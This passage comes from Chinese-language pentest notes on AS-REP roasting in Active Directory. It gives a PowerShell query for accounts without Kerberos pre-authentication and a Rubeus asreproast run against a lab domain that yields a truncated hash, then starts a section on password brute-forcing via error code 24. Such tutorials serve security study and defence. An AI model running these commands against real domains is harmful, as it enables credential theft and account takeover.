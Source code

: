 查找开启"不要求kerberos预身份验证"的用户

```
Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
```

利用rubeus.exe可获得用户hash

```
rubeus.exe asreproast


[*] Action: AS-REP roasting

[*] Target Domain          : cate4cafe.com

[*] Searching path 'LDAP://WIN-BLA6KEJV6V7.cate4cafe.com/DC=cate4cafe,DC=com' for AS-REP roastable users
[*] SamAccountName         : test
[*] DistinguishedName      : CN=test,CN=Users,DC=cate4cafe,DC=com
[*] Using domain controller: WIN-BLA6KEJV6V7.cate4cafe.com (192.168.2.123)
[*] Building AS-REQ (w/o preauth) for: 'cate4cafe.com\test'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$test@cate4cafe.com:1831E1C0B27472。。。。。。
```

#### 2.3.3 密码爆破

as-req在密码不正确时会返回错误状态码24,可以据此爆破用户密码

![](./media/13.jpg)
